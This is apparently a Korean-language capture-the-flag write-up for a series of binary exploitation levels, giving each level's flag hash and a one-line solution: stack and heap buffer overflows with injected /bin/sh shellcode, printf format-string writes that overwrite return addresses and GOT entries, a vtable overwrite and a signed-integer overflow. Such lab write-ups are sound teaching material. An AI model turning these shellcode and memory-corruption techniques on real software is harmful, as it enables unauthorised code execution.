 > level0 - level0

> level1 - 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

```shell
(gdb) print ($ebp + 4) - ($esp + 0x10)
result: 76

$ cat <(python -c 'print "A" * 76 + "\x44\x84\x04\x08",') - | ./level1
cat /home/user/level2/.pass
```


> level2 - 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```bash
cat <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 52)  + "\x08\xa0\x04\x08"') - | ./level2
```

대부분의 메모리 영역(스택, 동적 라이브러리)이 0xb???????위치에 존재하는데, 이 위치에서의 실행을 막는 코드가 내장되어있다. 따라서 malloc의 매핑 주소(코드 상의 \x08\xa0\x04\x08 부분)에 shellcode를 주입하는 방식으로 해결

> level3 - 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

printf의 첫 번째 인자가 우리가 직접 넣어줄 수 있는 문자열이다.
따라서 printf의 %n 모디파이어를 이용해서 특정 주소의 쓰기 작업이 가능하다

```bash
cat <(python -c 'print "\x8c\x98\x04\x08%020p%020p%020p%n",') - | ./level3
```

> level4 - b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

이전 레벨과 비슷하지만 nasted 함수 호출이 있어서 그걸 이용하여 안쪽 함수에서 ret 위치를 cmp부분을 건너 띈 위치로 조작하였다. 이때 매모리 주소가 매우 높아서 %n으로 전체 4바이트 값을 넣기 힘드므로 length modifier hh(%hhn)를 사용해서 맨 끝 1바이트만 조작했다.

```bash
python -c 'print "\xdc\xf4\xff\xbf%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%0149u%hhn",' | ./level4
```

> level5 - 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

이전 레벨과 비슷하게 printf를 이용하는 문제이다. 다만 모든 함수 호출에서 return 대신 exit을 하는 것을 볼 수 있는데.
exit의 got를 o라는 쉘을 호출해주는 함수의 주소로 조작하면 된다.

```bash
cat <(python -c 'print "\x38\x98\x04\x08%.0s%.0s%033952x%hn",') - | ./level5
```

> level6 - d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

strcpy의 buffer overflow를 이용해서 잘못된 함수 포인터를 넣을 수 있다.

```bash
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08",')
```

> level7 - f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

malloc을 총 4번 실행하는데, 대충

```c
struct test {
    int dummy;
    char *p;
}

a = malloc(sizeof(struct test));
b = malloc(STRING_SIZE);
a->p = b;

c = malloc(sizeof(struct test));
d = malloc(STRING_SIZE);
c->p = d;
```
과 같은 순서로 할당한다.
이때 매모리 상에서의 순서가 a -> b -> c -> d가 되므로,

첫번째 strcpy(dst는 b위치에 있음)에서 c->p위치를 덮어쓸 수 있다.

이 위치를 puts의 GOT로 덮어 쓴 다음에

두 번째 strcpy에서 함수 m의 위치를 복사하면 된다.

```bash
/level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08",') $(python -c 'print "\xf4\x84\x04\x08",')
```

> level8 - 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

배열크기를 초과한 위치를 참조하는 것을 이용했다.

```bash
cat <(printf "auth .\nservice0123456789012345\nlogin\n") - | ./level8
```

> level9 - c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

memcopy를 인자에서 받아서 실행하는데, vtable을 덮어써서 쉘코드를 실행시킬 수 있다.

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 76) + "\x0c\xa0\x04\x08",')
```

> bonus0 - f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

버퍼 크기가 20인데 28글자씩 읽는 것을 시도한다.

쉘코드는 스택 쓰레기 영역에 담았다.

```bash
cat <(python -c 'print "A" * 20 + "\n" + ("A"*4075) + "AAAAAAAAAAAAAA\x50\xe8\xff\xbfA\n" + ("B" * (0x200-20)) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A"*3556),') - | ./bonus0
```

> bonus1 - cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

두 번째 인자로 들어온 문자열을 첫번째 인자를 atoi하여 나온 값 * 4한 만큼 복사하는데
이때 atoi 결과값이 9보다 작은지 체크하는 부분이 있다.

atoi는 signed, memcpy는 unsigned로 값을 취급한다는것을 이용해서 적당한 값을 넣는다

```bash
./bonus1 -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFLOW
```
in 32bit -2147483637 * 4 = 44

> bonus2 - 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

strncpy가 max length 보다 큰 문자열을 받을 때 맨 뒤
null - term을 하지 않는다는 점을 이용해 인접한 문자열을 하나의 문자열처럼 만들 수 있다.

```bash 
LANG=fi ./bonus2 $(python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAA1\xc0Ph//shh/bin\x89",') $(python -c 'print "\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x801\xc0@\xcd\x80BBBB\xe8\xf5\xff\xbf",')
```

> bonus3 - 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587